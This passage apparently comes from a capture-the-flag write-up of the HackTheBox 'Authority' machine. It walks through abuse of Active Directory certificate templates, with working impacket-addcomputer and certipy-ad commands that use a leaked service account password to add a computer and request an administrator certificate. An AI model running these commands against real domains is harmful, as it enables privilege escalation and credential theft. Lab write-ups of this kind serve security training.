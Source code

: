 ![](images/fail.png)

https://tryhackme.com/r/room/adcertificatetemplates
![](images/note.png)

Okay, maybe we add a fake computer then ? 

```sh
impacket-addcomputer \
	-dc-ip '10.129.12.250' \
	-computer-name 'deadpool-pc' \
	-computer-pass 'SuperComplexPassword123!' \
	'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!'
```

![](images/deadpool.png)


Nice!! we got a certificate now we could use that to authenticate against kerberos and
grab the ntlm hash  of administrator hehe beautiful! 
```sh
certipy-ad req \
	-username 'deadpool-pc$@authority.htb' \
	-password 'SuperComplexPassword123!' \
	-target-ip 10.129.12.250 \
	-ca 'AUTHORITY-CA' \
	-template 'CorpVPN' \
	-upn 'administrator@authority.htb' \
	-debug
```
